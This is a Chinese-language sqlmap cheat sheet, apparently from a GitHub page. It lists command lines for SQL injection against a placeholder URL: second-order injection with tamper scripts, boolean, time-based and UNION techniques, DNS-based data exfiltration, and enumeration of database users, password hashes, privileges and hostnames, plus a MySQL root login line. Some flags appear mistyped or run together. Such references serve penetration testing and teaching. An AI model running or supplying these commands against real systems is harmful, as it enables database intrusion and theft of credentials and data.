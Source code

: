 #### 二次注入

```
sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5

需要一个注入页面和一个二次注入页面
```

例如：

sqlmap -u “存在注入点的URL" --technique B --current-db #利用基于布尔的盲注对注入点进行SQL注入探测。

**1、sqlmap设置时间盲注延迟时间**
例如： sqlmap -u "存在注入点的URL" --time-sec 3 --current-db

**2、sqlmap设置UNION字段数**
sqlmap -u “存在注入的URL" --union-cols 12-18 --current-db

**3、sqlmap设置union查询表**
sqlmap -u “存在注入的URL" --technique u --union-form users --current-db -v3

**4、sqlmap设置DNS攻击**
定义：通过设置DNS流量来突破限制 --dns-domain "dns服务器" 需要用户自身具有一个开放53端口的DNS服务器，通过DNS流量来获得web应用程序中数据内容。

**5、sqlmap设置二次注入**
sqlmap中可以设置二次注入的结果页面

sqlmap -u "存在注入的URL" --second-order

**6、sqlmap识别指纹**
sqlmap -u "存在注入的URL" --fingerprint -f

探测目标指纹信息（--fingerprint -f)

**7、sqlmap检索DBMS Banner**
获取后端数据库Banner信息 --banner 或者 -b

**8、sqlmap检索DBMS当前用户**
获取DBMS当前用户 --current-user

**9、sqlmap检索DBMS当前数据库**
获取当前数据库名 --current-db

**10、sqlmap检索DBMS当前 主机名**
--hostname

**11、sqlmap探测当前用户DBA**
--is-dba 探测当前用户是否是数据库管理员

**12、sqlmap 枚举DBMS用户名**
--user 获取DBMS所有用户

**13、sqlmap枚举DBMS的用户名密码**
--password 获取用户名密码

mysql -h IP地址 -u root -p #MySQL数据库登录

**14、sqlmap枚举DBMS权限**
--privileges--role（角色）
